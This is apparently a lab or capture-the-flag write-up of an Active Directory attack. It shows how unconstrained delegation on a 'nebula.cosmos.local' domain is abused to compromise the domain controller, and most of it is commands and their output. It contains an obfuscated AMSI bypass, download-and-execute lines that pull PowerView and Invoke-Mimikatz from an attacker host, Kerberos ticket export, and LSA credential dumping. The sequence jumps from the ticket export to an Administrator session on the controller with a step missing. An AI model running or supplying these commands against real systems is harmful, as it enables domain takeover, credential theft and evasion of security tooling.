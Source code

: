 
with local admin rights now applied on the production server, i'm now able to push forward to attack the domain controller!

# target 5: unconstrained delegation

using the `Get-NetComputer` cmdlet, i can list computers with unconstrained delegation enabled.

```sh
Get-NetComputer -unconstrained
```

```sh
PS C:\Windows\system32> iex (iwr http://172.16.10.1/powerview.ps1 -usebasicparsing)
PS C:\Windows\system32> Get-NetComputer -Unconstrained
nebula-dc.nebula.cosmos.local
prodsrv.nebula.cosmos.local
```

unconstrained delegation allows users to access any services in a domain, meaning i can run `mimikatz` to export Kerberos tickets from the `Prodsrv` machine to a different machine.

first, i'll create a directory that will house the tickets.

```sh
mkdir tickets
```

then, export the tickets from the `lsa` process.

```sh
Invoke-Mimikatz –Command '"sekurlsa::tickets /export"'
```

```sh
PS C:\Windows\system32> cd c:
PS C:\Windows\system32> cd /
PS C:\> cd C:\Users\devmanager\Desktop
PS C:\Users\devmanager\Desktop> mkdir tickets

    Directory: C:\Users\devmanager\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         7/3/2024   2:39 PM                tickets

PS C:\Users\devmanager\Desktop> cd .\tickets
PS C:\Users\devmanager\Desktop\tickets>
PS C:\Users\devmanager\Desktop\tickets> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

interestingly, there's an `Administrator` ticket.

```sh
    LastWriteTime         Length Name
    -------------         ------ ----
7/3/2024   2:39 PM          1641 [0:31da8d]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1705 [0:32ca4a]-0-0-40a50000-devmanager@ldap-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1751 [0:32ca4a]-0-1-40a50000-devmanager@LDAP-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1579 [0:32ca4a]-2-0-40e10000-devmanager@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1641 [0:357bef]-2-0-60a10000-Administrator@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1709 [0:3e4]-0-0-40a50000-PRODSRV$@cifs-nebula-dc.nebula.cosmos.local.kirbi
7/3/2024   2:39 PM          1583 [0:3e4]-2-0-60a10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
7/3/2024   2:39 PM          1583 [0:3e4]-2-1-40e10000-PRODSRV$@krbtgt-NEBULA.COSMOS.LOCAL.kirbi
```

[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> whoami
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> hostname
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents>
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('b'+'lE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]("{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ("1Q2U"+"zX") -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> iex (iwr http://172.16.10.1/invoke-mimikatz.ps1 -usebasicparsing)
[nebula-dc.nebula.cosmos.local]: PS C:\Users\Administrator\Documents> Invoke-Mimikatz -Command '"lsadump::lsa /patch"'